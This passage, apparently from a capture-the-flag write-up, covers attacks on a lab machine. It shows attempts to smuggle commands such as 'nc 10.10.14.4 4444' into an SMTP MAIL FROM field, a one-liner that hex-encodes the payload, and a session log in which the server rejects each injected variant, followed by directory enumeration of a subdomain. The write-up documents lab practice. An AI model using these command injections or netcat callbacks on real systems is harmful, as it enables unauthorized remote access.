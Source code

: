 Hmm, looks like it won't be quite that easy:

```
MAIL FROM:hplip;nc 10.10.14.4 4444;
501 5.1.7 Bad sender address syntax
```

The original exploit `linux/remote/16837.rb` looks like it's encoding the payload. I used ``od`` to encode mine:

```bash
echo -n "nc 10.10.14.4 4444" | od -A n -t x1 | sed 's/ /\\x/g'
```

These were the responses to my various attempts:

```
Connected to 10.10.11.166.
Escape character is '^]'.
220 debian.localdomain ESMTP Postfix (Debian/GNU)
500 5.5.2 Error: bad syntax
MAIL FROM:root;nc 10.10.14.4 4444;\n
501 5.1.7 Bad sender address syntax
MAIL FROM:root;nc 10.10.14.4 4444;
501 5.1.7 Bad sender address syntax
MAIL FROM:root;\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x31\x34\x2e\x34\x20\x34\x34
\x34\x34501 5.1.7 Bad sender address syntax
MAIL FROM:root;\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x31\x34\x2e\x34\x20\x34\x34;\n
501 5.1.7 Bad sender address syntax
MAIL FROM:root;id;
501 5.1.7 Bad sender address syntax
MAIL FROM:root;id;\n
501 5.1.7 Bad sender address syntax
MAIL FROM:<root;id;>
501 5.1.7 Bad sender address syntax
MAIL FROM:<root;id;\n>
501 5.1.7 Bad sender address syntax
MAIL FROM:<root;;>
250 2.1.0 Ok
QUIT
221 2.0.0 Bye
Connection closed by foreign host.

```

None of these variations worked. I might end up revisiting this idea later, but at this point I decided to pursue other leads.



##### Revisiting preprod-payroll.trick.htb

I added ``preprod-payroll.trick.htb`` to my ``/etc/hosts`` file (as if it had turned up in the original subdomain fuzzing) and tried directory enumeration against it, once again using **feroxbuster**:

![preprod-payroll directory enumeration](preprod-payroll%20directory%20enumeration.png)
